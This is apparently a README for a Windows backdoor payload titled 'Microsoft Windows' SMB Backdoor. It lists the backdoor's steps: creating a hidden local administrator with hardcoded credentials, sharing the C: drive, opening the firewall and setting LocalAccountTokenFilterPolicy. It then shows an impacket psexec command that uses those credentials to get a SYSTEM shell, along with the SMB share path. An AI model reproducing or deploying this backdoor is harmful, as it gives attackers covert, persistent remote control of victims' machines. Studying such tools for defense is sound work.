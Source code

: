 # "Microsoft Windows" SMB Backdoor

- Title:         "Microsoft Windows" SMB Backdoor
- Author:        TW-D
- Version:       1.0
- Target:        Microsoft Windows
- Category:      Remote Access

## Description

1) Adds a user account (OMG_User:OMG_P@ssW0rD).
2) Adds this local user to local administrator group.
3) Shares "C:\" directory (OMG_SHARE).
4) Adds a rule to the firewall.
5) Sets a value to "LocalAccountTokenFilterPolicy" to access the "C:" with a local account.
6) Hides this user account.

## Exploitation

>
> The connection identifiers will be those defined by the values : **OMG_User** and **OMG_P@ssW0rD**.
>

```
hacker@hacker-computer:~$ python3 /opt/impacket/examples/psexec.py ./OMG_User:OMG_P@ssW0rD@<TARGET>
C:\WINDOWS\system32> whoami
nt authority\system
```

>
> The connection identifiers and the share name will be those defined by the values : **OMG_SHARE**, **OMG_User** and **OMG_P@ssW0rD**.
>

```
smb://<TARGET>/OMG_SHARE/
```